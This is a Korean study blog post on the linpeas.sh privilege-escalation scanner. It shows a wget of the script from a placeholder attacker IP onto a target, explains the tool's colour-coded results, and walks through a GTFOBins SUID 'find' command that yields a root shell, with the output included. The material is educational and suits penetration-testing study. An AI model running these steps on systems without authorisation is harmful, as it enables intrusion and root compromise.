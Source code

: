 ```yaml
---
layout: post
title: "PEASS-ng 공부"
date: 2025-09-17 17:00:00 +0900
categories: Study 시스템 해킹
---
```


### 1. 개요

PEASS-ng(Privilege Escalation Awesome Scripts SUITE new generation)는 권한 상승을 위한 정보를 자동으로 수집해 주는 스크립트 모음이다. 이 중 `linpeas.sh`는 리눅스 환경에서 실행되며 시스템의 설정 오류 · 커널 버전 · SUID 파일 · cron 작업 등 권한 상승에 이용될 수 있는 거의 모든 항목을 검사하고 결과를 색상으로 구분하여 보여준다.

수동으로 정보를 수집하는 과정을 자동화하여 분석 시간을 크게 단축시킨다.

---

### 2. 스크립트 실행 방법

`linpeas.sh` 스크립트를 공격 대상 서버로 옮긴 후 실행 권한을 부여하고 실행하는 과정이 필요하다.

#### **1. 스크립트 전송**
공격자 PC에서 웹 서버를 열고 대상 서버에서 `wget` 이나 `curl` 명령어로 스크립트를 다운로드하는 것이 일반적이다.

*   **공격자 PC:**
    ```bash
    # linpeas.sh 파일이 있는 디렉터리에서 실행
    python3 -m http.server 8000
    ```
*   **대상 서버:**
    ```bash
    # 쓰기 가능한 디렉터리(예: /tmp)로 이동
    cd /tmp
    wget http://[Attacker IP]:8000/linpeas.sh
    ```

#### **2. 스크립트 실행**
다운로드한 스크립트에 실행 권한을 부여하고 실행한다.
```bash
chmod +x linpeas.sh
./linpeas.sh
```

---

### 3. 결과 분석

`linpeas.sh`는 실행 결과에서 잠재적인 취약점 항목을 색상으로 강조하여 보여준다.

*   **빨간색 + 노란색 배경:** 95% 확률로 권한 상승에 이용 가능한 매우 중요한 항목.
*   **빨간색:** 흥미롭거나 주의 깊게 봐야 할 항목.
*   **노란색:** 추가적인 정보가 될 수 있는 항목.

[여기에 linpeas.sh 실행 결과 화면 스크린샷 삽입]

결과 보고서를 통해 SUID가 설정된 바이너리, 시스템 권한으로 실행되는 cron 작업 `sudo -l` 로 확인한 권한 등 권한 상승에 결정적인 단서가 될 수 있는 정보들을 한눈에 파악할 수 있다. 예를 들어 `(i) find results` 섹션에서 [GTFOBins](https://gtfobins.github.io/)에 등재된 SUID 파일을 발견했다면 이를 직접적인 공격 경로로 활용할 수 있다.

### 4. 사용 예시: SUID 바이너리를 이용한 권한 상승

이 예시는 `linpeas.sh`가 찾아낸 `SUID` 설정 파일을 이용하여 `root` 권한을 획득하는 과정을 보여준다. '정보 수집 -> 분석 -> 공격 실행'의 전체 흐름을 따른다.

#### **1. 정보 수집 (linpeas.sh)**
**`./linpeas.sh`** 를 실행하여 시스템을 스캔한다. 스캔 결과 중 `SUID/SGID Binaries` 섹션에서 권한 상승에 악용될 수 있는 파일 목록을 확인한다.

아래 예시에서는 **`/usr/bin/find`** 파일이 SUID 비트가 설정되어 있고 **GTFOBins**에 등재되어 있어 권한 상승에 이용 가능하다고 **빨간색+노란색 배경**으로 강조되어 있다.

[여기에 linpeas.sh가 find SUID를 발견한 결과 스크린샷 삽입]

#### **2. 분석 (GTFOBins)**
**GTFOBins**는 유닉스 바이너리를 이용한 권한 상승 및 다양한 기능 우회 방법을 모아놓은 리소스이다. `linpeas.sh`가 알려준 **`find`** 바이너리를 GTFOBins 사이트에서 검색한다.

GTFOBins는 `find`의 SUID를 이용하여 쉘을 실행하는 아래의 명령어를 제공한다.
```bash
find . -exec /bin/sh -p \; -quit
```

#### **3. 공격 실행 (권한 상승)**
획득한 일반 사용자 쉘에서 GTFOBins에서 찾은 명령어를 그대로 실행한다.

```bash
find . -exec /bin/sh -p \; -quit
# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
# whoami
root
```
*   명령어를 실행하면 프롬프트는 그대로지만 **`-p`** 옵션으로 인해 유효 사용자 ID(`euid`)가 `root`로 설정된 쉘이 실행된다.
*   **`id`** 명령어를 실행하면 `euid=0(root)`로 표시되어 권한이 상승했음을 확인할 수 있다.
*   **`whoami`** 명령어 역시 `root`를 반환한다.

이 과정을 통해 `linpeas.sh`로 수집한 정보를 바탕으로 분석하여 실제 `root` 권한을 획득하는 데 성공했다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **linpeas.sh 실행 결과 화면 스크린샷 제작**

1.  공격 대상 서버의 `/tmp` 디렉터리에 `linpeas.sh` 스크립트를 업로드하고 실행합니다.
2.  스크립트가 실행되면서 수많은 정보가 터미널에 출력됩니다. 스크롤을 올려 스크립트 시작 부분의 `LEGEND` (범례)가 보이도록 합니다.
3.  `LEGEND`와 함께, 아래 결과 중 **빨간색+노란색 배경**으로 표시된 중요 취약점(예: `Writable /etc/passwd file`) 또는 **빨간색**으로 표시된 SUID 파일 목록 등이 잘 보이도록 화면을 구성합니다.
4.  터미널 화면 전체를 스크린샷으로 찍습니다.
5.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
6.  `LEGEND` 부분에 사각형 박스를 하나 그리고, 실제 결과에서 빨간색 또는 노란색으로 강조된 주요 취약점 항목에 또 다른 사각형 박스를 그려 하이라이트합니다.
7.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **find SUID 발견 및 권한 상승 과정 이미지 제작**

이 이미지는 `linpeas.sh`의 발견(원인)과 실제 권한 상승(결과)을 연결하여 보여준다.

1.  **`linpeas.sh` 결과 캡처:**
    *   `linpeas.sh`를 실행한 결과 중, `/usr/bin/find`가 SUID로 강조된 부분(빨간색+노란색 배경)이 잘 보이도록 화면을 구성하여 스크린샷을 찍어 **`linpeas_find_discovery.png`**로 저장한다.
2.  **권한 상승 터미널 캡처:**
    *   일반 사용자 쉘에서 `find . -exec /bin/sh -p \; -quit` 명령어를 입력하고, 이어서 `id`와 `whoami` 명령어를 실행한 결과(`euid=0(root)`, `root`)까지 모두 보이는 터미널 화면을 스크린샷으로 찍어 **`privesc_find_result.png`**로 저장한다.
3.  **최종 이미지 편집:**
    *   이미지 편집 프로그램에서 `linpeas_find_discovery.png`(왼쪽)와 `privesc_find_result.png`(오른쪽)를 나란히 배치한다.
    *   왼쪽 이미지에서는 `/usr/bin/find`가 강조된 라인 전체에 추가로 하이라이트를 적용한다.
    *   오른쪽 이미지에서는 실행한 `find` 명령어와, 그 결과로 나타난 `euid=0(root)` 및 `root` 출력 부분에 하이라이트를 적용한다.
    *   두 이미지 사이에 화살표를 추가하여 `linpeas.sh`의 발견이 실제 권한 상승으로 이어졌음을 명확히 보여준다.
    *   수정된 이미지를 게시글에 삽입한다.